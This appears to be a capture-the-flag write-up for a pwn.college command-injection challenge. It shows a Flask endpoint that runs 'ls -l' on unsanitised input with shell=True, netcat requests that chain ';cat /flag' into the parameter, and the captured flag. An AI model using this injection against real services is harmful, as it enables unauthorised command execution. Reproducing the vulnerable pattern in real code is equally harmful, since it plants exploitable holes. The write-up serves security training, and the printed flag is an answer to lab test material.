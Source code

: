 # Challenge: CDMi 1

**Category**: Web Security  
**Platform**: pwn.college  
**Level**: Intermediate  
**Vulnerability**: Command Injection  
**Goal**: Execute arbitrary shell commands to read the `flag` file.

# Command Injection 1 — Writeup
---
## 🧠 Challenge Overview

In this challenge, we are provided with a Flask-based Python web server that exposes an endpoint at `/puzzle`. This endpoint accepts a `topdir` query parameter and runs the `ls -l` command on the specified directory.

---

## 🔍 Server Code Analysis

Here is the vulnerable code:

```python
@app.route("/puzzle", methods=["GET"])
def challenge():
    arg = flask.request.args.get("topdir", "/challenge")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/puzzle"><input type=text name=topdir><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """
```
---
## 🔥 Vulnerability

The server takes user input (topdir) and injects it directly into a shell command (ls -l {arg}) with shell=True, allowing arbitrary shell command execution. This is a classic command injection vulnerability.
---
## 🎯 Exploitation Steps

### Step 1: List root directory

```bash
hacker@web-security~cmdi-1:~$ printf "GET /puzzle?topdir=/ HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Response includes the contents of /, revealing the presence of /flag:
```bash
-r--------    1 root root   60 Jul 20 04:23 flag
```

### Step 2: Inject command using ; to read the flag

```bash
hacker@web-security~cmdi-1:~$ printf "GET /puzzle?topdir=/;cat+/flag HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Response:
```bash
pwn.college{YQtUmMdXcZJ2zAZL75q30YR820m.QX1YTN2wSM0IzMyEzW}
```
---
## How the Injection Worked

The command constructed on the server:
```bash
ls -l /;cat /flag
```
Using ; allows chaining of commands — ls -l / runs first, followed by cat /flag, which leaks the contents of the flag file.
---
## Flag
```bash
pwn.college{YQtUmMdXcZJ2zAZL75q30YR820m.QX1YTN2wSM0IzMyEzW}
```
---
